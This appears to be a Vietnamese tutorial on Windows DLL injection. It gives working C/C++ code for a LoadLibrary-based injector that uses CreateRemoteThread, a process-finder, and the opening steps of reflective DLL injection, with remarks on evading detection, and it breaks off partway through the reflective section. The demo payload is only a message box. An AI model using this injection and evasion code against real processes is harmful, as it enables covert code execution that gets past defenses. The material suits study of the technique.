









# Process Injection: Dynamic-link Library Injection

Kẻ tấn công có thể truyền thư viện liên kết động (DLL) vào cách tiến trình để tránh các biện pháp phòng thủ dựa trên tiến trình cũng như có thể nâng cao đặc quyền. Chèn DLL là phương pháp thực thi mã tùy ý trong không gian địa chỉ của một tiến trình riêng biệt.

- Tuy nhiên không chỉ chèn được code ở dạng DLL, chúng ta có thể chèn code ở nhiều dạng khác như exe..., điều quan trọng là chúng ta có đủ quyền để thao tác với tiến trình của ứng dụng khác hay không.

- Windows API cung cấp cho chúng ta một số hàm để thao tác cũng như can thiệp trong việc debug, chúng ta sẽ tận dụng những hàm này để thực hiện việc chèn DLL.

Việc DLL Injection thành 4 bước sau:

- Can thiệp vào process 
- Cấp phát một vùng nhớ trong process
- Copy toàn bộ DLL hoặc đường dẫn đến DLL vào vùng nhớ đó và xác định vị trí của vùng nhớ.
- Process thực thi DLL 

Các hàm Windows API hay được sử dụng như sau:

```
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
// Chức năng để mở/ lấy handle tới tiến trình khác với quyền truy cập cụ thể.
```


```
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
// Cấp phát vùng nhớ trong không gian địa chỉ của địa chỉ tiến trình khác (remote process) 
```
```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
// Ghi một buffer từ không gian địa chỉ hiện tại vào bên trong 1 địa chỉ tiến trình khác.
```

```
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
// Nạp một DLL (theo đường dẫn) vào tiến trình hiện tại.
``` 

```
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
// Tạo một luồng mới chạy trong tiến trình khác.
```

```
NtCreateThreadEx
// Tạo thread trong 1 process khác bằng cách gọi trực tiếp hàm native trong ```ntdll.dll```, đỡ bị detect hơn những api phổ biến thằng là wrapper.
```

```
CreateFileA
// Mở hoặc tạo file. 

GetFileSize
// Lấy kích thước file

GetModuleHandle
// Trả về handle(base address) của module đã nạp trong process hiện tại.

GetProcAddress
// Lấy địa chỉ của hàm export trong module
```

## Tóm tắt các bước thực hiện

- ```OpenProcess() được sử dụng để gắn tiến trình độc hại với tiến trình xác thực```

- ```VirtualAllocEx``` và ```WriteProcessMemory``` có thể được dùng để cấp phát bộ nhớ trong tiến trình mục tiêu và ghi dữ liệu vào đó, chuẩn bị cho điểm bắt đầu thực thi. Ở đây không đơn giản là chúng ta cung cấp tên DLL cho các hàm này, mà cần đưa vào một địa chỉ bộ nhớ làm điểm khởi đầu thực thi.

- Có 2 điểm khởi đầu phổ biến ```LoadLibraryA``` và nhảy thẳng đến DllMain

- ```CreateRemoteThread(), NtCreateThreadEx``` có thể được yêu cầu tiến trình mục tiêu khởi chạy DLL.

- ```LoadLibraryA()``` là hàm trong ```kernel32.dll``` được dùng để nạp DLL, file thực thi, hoặc các thư viện hỗ trợ khác trong thời gian chạy. Nó chỉ nhận một tham số duy nhất là tên file. Điều này có nghĩa chúng ta chỉ cần cung cấp phát một vùng nhớ chứa đường dẫn đến DLL của mình và đặt điểm khởi đầu thực thi tại địa chỉ của ```LoadLibraryA()```, truyền địa chỉ vùng nhớ chứa đường dẫn đó làm tham số.

- Nhược điểm lớn của ```LoadLibraryA()``` là nó sẽ đăng kí DLL được nạp với chương trình, do đó dễ bị phát hiện. Thêm 1 bất tiện nhỏ là nếu một DLL đã từng được nạp trước đó bằng ```LoadLibraryA()```, nó sẽ không thực thi lại nữa. Có thể khắc phục nhưng cần thêm code.

- Một phương pháp thay thế cho ```LoadLibraryA()``` là nạp toàn bộ DLL vào bộ nhớ, sau đó xác định offset với entry point của DLL. Với cách này, bạn có thể tránh việc đăng kí DLL với chương trình và có thể inject nhiều lần vào 1 tiến trình.

## Bước 1: Gắn tiến trình (Attaching to the Process)


Trước tiến chúng ta cần có 1 handle đến tiến trình(process) để có thể tương tác được với nó. Việc này được thực hiện bằng hàm ```OpenProcess().```

Cần yêu cầu quyền truy cập thực thi các tác vụ dưới đây. Những quyền có thể khác nhau với các phiên bản windows tuy nhiên hầu hết là.

```
Handle = OpenProcess( PROCESS_CREATE_THREAD | 
  PROCESS_QUERY_INFORMATION | 
  PROCESS_VM_OPERATION | 
  PROCESS_VM_WRITE | 
  PROCESS_VM_READ, 
  FALSE, 
  procID );
```

## Bước 2: Cấp phát vùng nhớ (Allocating Memory)


Trước khi chèn bất cứ thứ gì vào process chúng ta đều cần có 1 chỗ để đặt chúng vào. Chúng ta sẽ sử dụng hàm ```VirtualAllocEx()``` để thực hiện công việc đó. 

```VirtualAllocEx()``` lấy dung lượng của vùng nhớ cần cấp phát để làm tham số truyền vào. Nếu sử dụng hàm ```LoadLibraryA()```, chúng ta cần cấp phát vùng nhớ để ghi đường dẫn đến DLL, còn nếu sử dụng phương thức nhảy đến DllMain thì cần cấp phát đủ lớn để ghi toàn bộ Dll vào. Sử dụng đường dẫn tới DLL sẽ phải sử dụng hàm LoadLibraryA() cùng với những hạn chế tôi đã nói ở trên. Nhưng đó là một phương pháp rất phổ biến. Cấp phát đủ vùng nhớ để ghi đường dẫn đến DLL vào:

```
GetFullPathName(TEXT("mydll.dll"),
  BUFSIZE,
  dllPath, //Đường dẫn đến DLL sẽ được lưu vào đây
  NULL);

dllPathAddr = VirtualAllocEx(hHandle,
  0,
  strlen(dllPath),
  MEM_RESERVE|MEM_COMMIT,
  PAGE_EXECUTE_READWRITE);
```

Sử dụng toàn bộ code trong DLL chúng ta không cần sử dụng hàm ```LoadLibraryA()``` sẽ tránh được các hạn chế trên. Đầu tiên chúng ta sẽ lấy handle của DLL bằng hàm ```CreateFileA()``` và tính toán kích thước của DLL bằng hàm ```GetFileSize()```, cuối cùng đưa vào hàm ```VirtualAllocEx()```:

```
GetFullPathName(TEXT("mydll.dll"),
  BUFSIZE,
  dllPath, //Đường dẫn đến DLL sẽ được lưu vào đây
  NULL);

hFile = CreateFileA( dllPath,
  GENERIC_READ,
  0,
  NULL,
  OPEN_EXISTING,
  FILE_ATTRIBUTE_NORMAL,
  NULL );

dllFileLength = GetFileSize( hFile, NULL );

remoteDllAddr = VirtualAllocEx( hProcess,
  NULL,
  dllFileLength,
  MEM_RESERVE|MEM_COMMIT,
  PAGE_EXECUTE_READWRITE );
```

## Bước 3: Copy và xác định địa chỉ (Copying the DLL/Determine Addresses)

Chúng ta có thể copy đường dẫn hoặc toàn bộ DLL đến vùng nhớ của process. 


Giờ chúng ta có thể copy đường dẫn hoặc toàn bộ DLL đến vùng nhớ của process. Khi đã có vùng nhớ cần thiết, chúng ta sẽ sử dụng hàm ```WriteProcessMemory()``` để thực hiện công việc ghi: Đường dẫn DLL:

```
WriteProcessMemory( hHandle,
  dllPathAddr,
  dllPath,
  strlen(dllPath),
  NULL);
```

Toàn bộ DLL: Cần đọc dll trước khi ghi nó vào vùng nhớ của process.

```
lpBuffer = HeapAlloc(GetProcessHeap(),0,dllFileLength);

ReadFile(hFile,lpBuffer,dllFileLength,&dwBytesRead,NULL);

WriteProcessMemory(hProcess,lpRemoteLibraryBuffer,
lpBuffer,dllFileLength,
NULL);
```

Xác định điểm bắt đầu thực thi: đường dẫn DLL và ```LoadLibraryA()```: Chúng ta sẽ xác định địa chỉ của hàm ```LoadLibraryA()``` và chuyển nó đến thực thi cùng với tham số truyền vào là địa chỉ vùng nhớ chứa đường dẫn đến DLL. Để lấy địa chỉ của hàm ```LoadLibraryA()``` ta sẽ sử dụng ```GetModuleHandle()``` và ```GetProcAddress()```

```loadLibAddr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");```

Toàn bộ DLL và DllMain bằng cách này chúng ta sẽ tránh được đăng kí DLL chương trình. Tuy nhiên phần khó thực hiện nhất là lấy entry point của DLL khi nó được ghi vào trong vùng nhớ. Sử dụng hàm sau:

```dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpBuffer);```

## Bước 4: Thực thi DLL (Executing the DLL!)

Đến thời điểm này, chúng ta đã có DLL nằm trong bộ nhớ và đã biết địa chỉ bộ nhớ nơi muốn bắt đầu thực thi. Việc còn lại chỉ là yêu cầu tiến trình thực thi nó. Có một vài cách để làm điều này.

```CreateRemoteThread()```

Hàm ```CreateRemoteThread()``` có lẽ là phương pháp được biết đến và sử dụng rộng rãi nhất.

```

rThread = CreateRemoteThread(hTargetProcHandle, NULL, 0, lpStartExecAddr, lpExecParam, 0, NULL); 

WaitForSingleObject(rThread, INFINITE);
```


```WaitForSingleObject()``` để chắc chắn rằng DLL đã được thực thi trước khi Windows thực thi các công việc tiếp theo của process


### Bước 5: Thực hành thử DLL Injection

### Kiểu DLL Injection Cơ Bản Dùng LoadLibrary 

Tạo 1 DLL đơn giản có chức năng messagebox 

[Source code](code/dllmain.cpp)

```C
#include "pch.h" // Thư viện

// Hàm entry point mặc định của DLL, được Windows gọi khi DLL nạp/gỡ hoặc khi thread được tạo/kết thúc


BOOL APIENTRY DllMain( HMODULE hModule, // Handle của DLL khi được load vào process 
                       DWORD  ul_reason_for_call, // Lý do Windows gọi hàm này.
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call) 
    {
    case DLL_PROCESS_ATTACH: // Khi 1 process load DLL này
        MessageBoxW(NULL, L"LuongVD!", L"Info", MB_OK | MB_ICONINFORMATION);
    case DLL_THREAD_ATTACH: // Khi một thread mới trong process được tạo
    case DLL_THREAD_DETACH: // Khi một thread mới trong process kết thúc
    case DLL_PROCESS_DETACH: // Khi process gỡ DLL này ra khỏi bộ nhớ
        break;
    }
    return TRUE;
}
```

Một số khái niệm ôn tập lại:

1. Process (tiến trình) 

Định nghĩa: Process là một chương trình đang được thực thi trong bộ nhớ.

Đặc điểm:

- Có không gian địa chỉ (address space) riêng.
- Có các tài nguyên riêng như: vùng nhớ, handle đến file/registry, token bảo mật...
- Một process có thể chứa nhiều thread.

2. Thread (luồng)

Định nghĩa: Thread là đơn vị thực thi nhỏ nhất bên trong một process.
Đặc điểm:

- Các thread trong cùng một process chia sẻ chung tài nguyên (bộ nhớ, handle) của process đó.
- Mỗi thread có stack riêng và trạng thái thực thi riêng.

3. PID (Process ID)

Định nghĩa: Là số định danh duy nhất mà hệ điều hành gán cho mỗi process đang chạy.

Đặc điểm:

- PID giúp phân biệt các process khác nhau.
- PID có thể tái sử dụng khi một process kết thúc.

4. TID (Thread ID)

Định nghĩa: Là số định danh duy nhất gán cho mỗi thread trong hệ thống.

Đặc điểm:

- TID chỉ định danh thread, và cũng có thể tái sử dụng.
- Một process có thể có nhiều TID (ứng với nhiều thread).

5. Handle

Định nghĩa: Handle là một con trỏ trừu tượng (abstract reference) mà hệ điều hành cung cấp để một process/thread có thể truy cập tài nguyên (file, mutex, registry, process khác...).

Đặc điểm:

- Người lập trình không thao tác trực tiếp với tài nguyên, mà thông qua handle.
- Handle có thể bị lợi dụng trong các kỹ thuật process injection (ví dụ: OpenProcess để lấy handle rồi WriteProcessMemory).

Mô hình triển khai:



Tiến hành code injection

[Source code](code/DllInjection.cpp)

[DLL](code/LuongVD.dll)

```C
#include <stdio.h>      
#include <windows.h>    
const char* k = "[+]";
const char* e = "[-]";  
const char* i = "[*]";  

DWORD PID, TID = NULL;             // PID: Process ID mục tiêu, TID: Thread ID mới tạo
LPVOID rBuffer = NULL;             // Con trỏ tới vùng nhớ được cấp phát trong process target
HMODULE hKernel32 = NULL;          // Handle tới Kernel32.dll (chứa LoadLibraryW)
HANDLE hProcess = NULL, hThread = NULL; // Handle tới process và thread mới tạo

wchar_t dllPath[MAX_PATH] = L"D:\\LuongVD.dll"; // Đường dẫn DLL cần inject
size_t dllPathSize = sizeof(dllPath);          // Kích thước DLL path tính theo bytes

int main(int argc, char* argv[]) {
    // Kiểm tra người dùng có nhập PID không
    if (argc < 2) {
        printf("%s Usage: %s <PID>\n", e, argv[0]);
        return EXIT_FAILURE;
    }

    // Chuyển PID từ string sang số
    PID = atoi(argv[1]);
    printf("%s Trying to get a handle to the process (%ld)\n", i, PID);

    // Mở handle tới process mục tiêu với full quyền
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) { // Nếu thất bại
        printf("%s Failed to get a handle to the process, error: %ld\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Got a handle to the process (%p)\n", k, hProcess);

    // Cấp phát bộ nhớ trong process target để lưu đường dẫn DLL
    rBuffer = VirtualAllocEx(hProcess, NULL, dllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (rBuffer == NULL) { // Nếu cấp phát thất bại
        printf("%s couldn't create rBuffer, error: %ld\n", e, GetLastError());
        CloseHandle(hProcess); // Đóng handle process
        return EXIT_FAILURE;
    }
    printf("%s allocated buffer to process memory w/ PAGE_READWRITE permission\n", k);

    // Ghi đường dẫn DLL vào vùng nhớ vừa cấp phát
    WriteProcessMemory(hProcess, rBuffer, (LPVOID)dllPath, dllPathSize, NULL);
    printf("%s wrote [%S] to process memory\n", k, dllPath);

    // Lấy handle tới Kernel32.dll (chứa LoadLibraryW)
    hKernel32 = GetModuleHandleW(L"Kernel32");
    if (hKernel32 == NULL) { // Nếu thất bại
        printf("%s couldn't get handle to Kernel32, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE); // Giải phóng bộ nhớ
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got handle to Kernel32 (%p)\n", k, hKernel32);

    // Lấy địa chỉ hàm LoadLibraryW từ Kernel32.dll
    LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
    if (startThis == NULL) { // Nếu thất bại
        printf("%s couldn't get address of LoadLibraryW, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE); // Giải phóng bộ nhớ
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got address of LoadLibraryW (%p)\n", k, startThis);

    // Tạo remote thread trong process target, gọi LoadLibraryW với rBuffer là tham số
    hThread = CreateRemoteThread(hProcess, NULL, 0, startThis, rBuffer, 0, &TID);
    if (hThread == NULL) { // Nếu tạo thread thất bại
        printf("%s couldn't create remote thread, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE); // Giải phóng bộ nhớ
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got a handle to the newly-created thread (%ld) -> 0x%p\n", k, TID, hThread);

    // Chờ thread thực thi xong
    printf("%s waiting for the thread to finish execution\n", i);
    WaitForSingleObject(hThread, INFINITE);
    printf("%s thread finished execution\n", k);

    // Dọn dẹp handle
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return EXIT_SUCCESS;
}
```

Kết quả thu được 


Kiểm tra với Process Hacker 



Các hàm đã được import



## Kiểu DLL Injection nâng cao (Reflective DLL Injection)

### Lý thuyết

- Đây là kĩ thuật để tiêm tiến trình ngay trên bộ nhớ (thay vì tải trên ổ đĩa).

- Như phần trước là sử dụng hàm có sẵn LoadLibrary() để load dll rất dễ bị phát hiện.

- Cách này sẽ thực hiện mọi việc thủ công chính vì vậy sẽ khó phát hiện hơn chính vì vậy mà kĩ thuật này cũng rất khó thực hiện triển khai hơn cách trước.

Reflective Loader là một hàm đặc biệt nằm ngay trong DLL. Nó cho phép DLL tự nạp chính nó vào bộ nhớ của tiến trình mục tiêu mà không cần gọi các hàm tiêu chuẩn như LoadLibrary(), thay vì dựa vào hệ điều hành nó tự parse PE Header của chính mình, tự tìm import, tự fix relocation và tự gọi DLLMain.

Quá trình hoạt động của Reflective Loader bao gồm: 

- Tạo bộ nhớ và sao chép DLL: chương trình tạo 1 bản sao của DLL vào vùng nhớ của tiến trình mục tiêu sử dụng API ```VirtualAllocEx, WriteProcessMemory.```

- Xác định vị trí của DLL trong bộ nhớ: Do DLL không được nạp thông qua cơ chế chuẩn, Reflective Loader cần tự tìm địa chỉ của chính nó thông qua bộ nhớ.

- Tái định vị (Relocation): DLL không được nạp vào đúng địa chỉ dự kiến, Reflective Loader điều chỉnh các địa chỉ trong bảng Relocation Table.

- Phân giải IAT (Import Table Address): Reflective Loader phải tìm và liên kết thủ công bằng cách quét Import Table Address và sử dụng GetProcAddress để lấy địa chỉ của hàm cần thiết.

- Thực thi (Entry Point): Sau khi hoàn tất các bước trên, Reflective Loader sẽ gọi Entry Point của DLL để khởi chạy mã chính.


### Mô hình triển khai 

Cơ chế hoạt động của kĩ thuật.



Từ hình ảnh này ta có hình ảnh của 2 mô hình tương ứng giữa 

PE Injector (đoạn mã bên ngoài tiến trình thực hiện việc tiêm):



Mô hình Reflective Loader:



### Quy trình PE Injector

#### 1.Thực hiện theo dõi tiến trình

Tiến hành duyệt qua tất cả các tiến trình đang chạy bằng ```CreateToolhelp32Snapshot()``` và ```PROCESSENTRY32```

```CreateToolhelp32Snapshot()``` Tạo một bản bản ghi của hệ thống bao gồm tiến trình, thread, module, heap

```PROCESSENTRY32``` là cấu trúc lưu thông tin của tiến trình trong process.  

```C++
#include <windows.h> // Thư viện Windows API 
#include <tlhelp32.h> // Thư viện snapshot và quản lý tiến trình
#include <tchar.h> // Thư viện hỗ trợ kí tự Unicode và ANSI
#include <iostream> // Thư viện nhập xuất chuẩn C++

using namespace std;

// Hàm tùy chỉnh để lấy Process ID dựa trên tên tiến trình
DWORD customGetProcID(const wchar_t* name) {
	PROCESSENTRY32W pe32; // Khai báo cấu trúc lưu thông tin tiến trình
	pe32.dwSize = sizeof(PROCESSENTRY32W); // Khởi tạo kích thước cấu trúc
	HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); // Tạo snapshot của tất cả tiến trình
    if (hSnap == INVALID_HANDLE_VALUE) return 0; // Nếu thất bại trả về 0 

	// Lấy tiến trình đầu tiên trong snapshot
    if (!Process32FirstW(hSnap, &pe32)) { 
		CloseHandle(hSnap); // Nếu thất bại thì đóng handle và trả về 0
        return 0;
    }

	// Duyệt qua tất cả các tiến trình trong snapshot
    do { 
		// So sánh tên tiến trình với tên mục tiêu (không phân biệt chữ hoa/thường)
        if (!lstrcmpiW(pe32.szExeFile, name)) {
			CloseHandle(hSnap); // Đóng handle snapshot
			return pe32.th32ProcessID; // Trả về Process ID nếu tìm thấy    
        }
	} while (Process32NextW(hSnap, &pe32)); // Lấy tiến trình tiếp theo

	CloseHandle(hSnap); // Đóng handle snapshot nếu không tìm thấy
	return 0; // Trả về 0 nếu không tìm thấy tiến trình
}

int main() {
	const wchar_t* targetProcess = L"notepad.exe"; // Tên tiến trình mục tiêu
	DWORD pid = customGetProcID(targetProcess); // Gọi hàm lấy Process ID
    if (pid != 0) {
		wcout << L"Found " << targetProcess << L" with PID: " << pid << endl; // In ra PID nếu tìm thấy
    }
    else {
        wcout << targetProcess << L" not found!" << std::endl;
    }
    return 0;
}
```

#### 2. Thực hiện mở và cấp phát bộ nhớ, quyền tạo vùng nhớ rồi tiêm 

- Lấy PID bằng hàm phía trước sau đó sử dụng ```OpenProcess()``` với các quyền.

- Dùng ```VirtualAllocEx()``` để cấp phát bộ nhớ trong tiến trình đích, sau đó ghi bằng ```WriteProcessMemory()```.

```C++
HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, dwProcessId);
LPVOID lpRemoteLibraryBuffer = VirtualAllocEx(hProcess, NULL, fileLength, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, lpRemoteLibraryBuffer, lpFileBuffer, fileLength, NULL);
```

### 3. Xác định địa chỉ hàm ReflectiveLoader

Thực thực hiện việc tìm offset của hàm ```ReflectiveLoader()``` trong file DLL dựa vào cấu trúc ```IMAGE_EXPORT_DIRECTORY```


 
Từ cấu trúc này chúng ta sẽ tìm được RVA của hàm ReflectiveLoader() từ đó chuyển sang offset.

